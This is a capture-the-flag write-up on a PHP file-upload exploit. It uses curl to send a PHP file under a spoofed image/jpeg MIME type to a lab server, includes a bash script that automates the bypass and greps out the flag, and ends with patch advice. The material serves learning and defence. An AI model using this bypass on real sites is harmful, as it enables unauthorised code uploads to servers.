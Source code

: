 # 🖼️ Image Upload

## 📖 Definition

A **PHP File Upload Exploit** is a type of security breach where an attacker bypasses input validation mechanisms to upload a malicious PHP file disguised as another type of file, such as an image, to a vulnerable web application. This file, when executed, can provide the attacker unauthorized control over the server or access to sensitive data.

**Key Characteristics of a PHP File Upload Exploit:**

1. **Exploitation of File Upload Functionality:** attackers target poorly secured file upload features, often by tricking the server into accepting PHP files under the guise of valid file types like images.

2. **Misconfigured MIME Type Validation:** exploits occur when the server relies solely on the file's MIME type or extension to validate its content. In this case, the attacker uses a curl command to upload the malicious PHP file, specifying a misleading MIME type (e.g., image/jpeg).

3. **Execution of Malicious Code:** once uploaded, the malicious file may be executed by accessing it through a web browser or triggering it indirectly. This allows the attacker to perform actions such as obtaining sensitive data or escalating privileges.

4. **Inadequate Input Validation:** This breach often exploits systems that fail to validate the file's contents, relying instead on extensions or MIME types, leaving the server vulnerable.

5. **Common Attack Objectives:**

	- Backdoor installation for persistent server access.
	- Arbitrary code execution.
	- Retrieving sensitive information (e.g., flags in Capture-The-Flag challenges).

## 🔍 Discovery

We go on the **File Upload** page ("ADD IMAGE" button on the Home page) and we saw that we can upload images. We saw on different documentations that weak websites aren't protected against malicious file uploads because of a flawed validation. One way that websites may attempt to validate file uploads is to check that this input-specific Content-Type header matches an expected MIME type. If the server is only expecting image files, for example, it may only allow types like image/jpeg and image/png. Problems can arise when the value of this header is implicitly trusted by the server. If no further validation is performed to check whether the contents of the file actually match the supposed MIME type, this defense can be easily bypassed. So we decide to use a `curl` command to upload a `.php` file as an image file thanks to this command:

```bash
curl -s -X POST -F "uploaded=@bug.php;type=image/jpeg" -F "Upload=Upload" "http://10.12.248.253/index.php?page=upload" | grep 'flag'
```

Then, we get the flag.

As you can see if you open the `bug.php` file, there's nothing in it. We asked ourselves why and came to the conclusion that the purpose of the flaw was only to understand its basic functionings so the file content is not primary.

## 🏁 Flag

1. Open a terminal
2. Run the script using `./script <ip>`

## 💡 Solutions

**script.sh | Usage: `./script.sh <ip>`**

```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
	echo "Usage: ./script.sh <ip>"
	exit 1
else
	ip=$1
fi

echo "Testing the IP address..."
response=$(curl -s -o /dev/null -w "%{http_code}" http://$ip)

if [ $response -eq 200 ]; then
	echo "The IP address responded successfully with HTTP status code 200."
	echo "Extracting the flag..."
	flag=$(curl -s -X POST -F "uploaded=@bug.php;type=image/jpeg" -F "Upload=Upload" "http://$ip/index.php?page=upload" |
		grep -oP '(?<=The flag is : ).*?(?=</h2>)')
	
	if [ -n "$flag" ]; then
		echo "The flag is: $flag"
	else
		echo "Failed to extract the flag."
	fi
else
	echo "Failed to connect. HTTP status code: $response"
fi
```

The script first checks if exactly one argument (the IP address) is provided; if not, it displays usage instructions and exits. After validating the input, it uses `curl` to send a GET request to test if the IP address is reachable and checks for a successful HTTP response (status code 200). If the server responds successfully, the script sends a `POST` request to upload a file (`bug.php`) as an image and looks for the flag embedded in the server's HTML response using a `grep` command with a regex. If the flag is found, it is displayed; otherwise, it reports a failure to extract the flag. If the server is unreachable, the script reports the HTTP error code.

## 🔧 Patch

Many defensive measures can be taken, but here are the main ones:

- **Validate File Contents and Types**
	- **Verify File Content:** Check the file's actual contents (e.g., by inspecting magic bytes) rather than relying on MIME type or file extensions.
	- **Restrict Allowed File Types:** Only allow specific file formats like `.jpg`, `.png`, or `.gif`. Reject files with PHP or other executable code.
- **Rename Uploaded Files**
	- Rename uploaded files to a random, non-executable name upon saving, e.g., `randomstring1234.img`. This prevents execution even if the file contains malicious code.
- **Store Files Outside the Web Root**
	- Save uploaded files in directories outside the web-accessible root (e.g., `/uploads` outside `/var/www/html`).
	- Serve the files through a proxy or use a secure method to fetch and display them.
- **Disable PHP Execution in Upload Directories**
	- Modify the web server configuration to block PHP execution in upload folders.

## 📚 References

- [File upload vulnerabilities (PortSwigger)](https://portswigger.net/web-security/file-upload)
- [Unrestricted File Upload (OWASP)](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [File Upload Cheat Sheet (OWASP)](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [File Upload (HackTricks)](https://book.hacktricks.xyz/pentesting-web/file-upload)